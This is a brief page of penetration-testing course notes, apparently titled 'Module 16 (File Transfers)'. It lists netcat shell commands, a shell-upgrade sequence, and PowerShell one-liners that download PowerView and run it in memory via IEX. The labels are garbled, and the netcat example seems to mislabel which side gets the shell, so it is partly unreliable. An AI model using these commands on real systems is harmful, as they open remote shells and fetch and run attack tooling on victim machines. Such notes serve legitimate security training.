 # Module 16 (File Transfers)

## Generating reverse shell commands <a href="#generating-reverse-shell-commands" id="generating-reverse-shell-commands"></a>

attcker machen

```bash
nc -nvlp 4444 -e /bin/bash
```

victim

```bash
nc -nv 192.168.x.x 4444
```

<figure><img src="../../.gitbook/assets/image (349).png" alt=""><figcaption></figcaption></figure>

### Upgrading the shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'

#using arrows

#Ctrl + z
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

## \*Linux to Windows

```bash
#from Linux to Windows
#Local
(new-object system.net.webclient).downloadstring('http://192.168.1.1/powerview.ps1') | IEX
#Remotly
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1') | IEX
```
